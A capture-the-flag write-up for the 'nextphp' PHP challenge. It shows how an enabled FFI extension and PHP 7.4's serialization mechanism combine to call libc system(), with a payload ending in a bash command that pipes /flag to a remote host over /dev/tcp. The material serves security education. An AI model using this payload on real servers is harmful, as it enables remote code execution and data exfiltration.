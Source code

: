 # nextphp

PHP is the best language!

## Writeup

After ``phpinfo();``, you can easily notice the PHP version contains ``-dev``, and you will find a strange extension ``ffi`` is enabled. It's a new feature in PHP 7.4.

Just read these 3 RFCs for PHP 7.4 and write your own payload:

- [PHP RFC: Preloading](https://wiki.php.net/rfc/preload)
- [PHP RFC: FFI - Foreign Function Interface](https://wiki.php.net/rfc/ffi)
- [PHP RFC: New custom object serialization mechanism](https://wiki.php.net/rfc/custom_object_serialization)

> In principle, this makes existing strings serialized in O format fully interoperable with the new serialization mechanism, the data is just provided in a different way (for __wakeup() in properties, for __unserialize() as an explicit array). If a class has both __sleep() and __serialize(), then the latter will be preferred. If a class has both __wakeup() and __unserialize() then the latter will be preferred.

> If a class both implements Serializable and __serialize()/__unserialize(), then serialization will prefer the new mechanism, while unserialization can make use of either, depending on whether the C (Serializable) or O (__unserialize) format is used. As such, old serialized strings encoded in C format can still be decoded, while new strings will be produced in O format.

## Payload

```php
class D implements Serializable {
    protected $data = [
        'ret' => null,
        'func' => 'FFI::cdef',
        'arg' => 'int system(const char *command);'
    ];

    public function serialize (): string {
        return serialize($this->data);
    }

    public function unserialize($payload) {
        $this->data = unserialize($payload);
    }
}

$a = new D();
$b = serialize($a);
$b = str_replace('"D"', '"A"', $b);
$d = unserialize($b);
$d->ret->system('bash -c "cat /flag > /dev/tcp/xxx/xxx"');
```

